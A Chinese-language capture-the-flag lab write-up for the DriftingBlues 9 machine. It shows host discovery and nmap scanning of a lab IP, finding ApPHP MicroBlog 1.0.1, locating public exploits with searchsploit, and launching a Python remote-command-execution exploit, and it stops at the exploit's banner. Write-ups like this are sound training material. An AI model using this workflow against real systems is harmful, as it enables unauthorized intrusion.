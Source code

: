 [Site Unreachable](https://grumpygeekwrites.wordpress.com/2021/05/12/driftingblues-9/)

|   |   |   |
|---|---|---|
|driftingblues9|easy|aPphp GETSHELL、searchsploit使用、凭据收集、gdb使用、<br><br>缓冲区溢出漏洞（难）、pattern_create.rb、pattern_offset.rb 使用|

# 主机发现

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```
# 服务探测

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.139  

80/tcp    open  http    Apache httpd 2.4.10 ((Debian))

111/tcp   open  rpcbind 2-4 (RPC #100000)
```
# 目录扫描
```c
http://192.168.44.139/README.txt

// ApPHP MicroBlog Free
// Version: 1.0.1
```

# 漏洞扫描
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit apphp                      
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
ApPHP MicroBlog 1.0.1 - Multiple Vulnerabi | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remote Command Exe | php/webapps/33070.py




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ searchsploit -m php/webapps/33030.txt  
  Exploit: ApPHP MicroBlog 1.0.1 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/33030
     Path: /usr/share/exploitdb/exploits/php/webapps/33030.txt
    Codes: OSVDB-106352, OSVDB-106351
 Verified: True
File Type: ASCII text
Copied to: /home/kali/桌面/OSCP/33030.txt




┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python2 33070.py http://192.168.44.139/
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
```
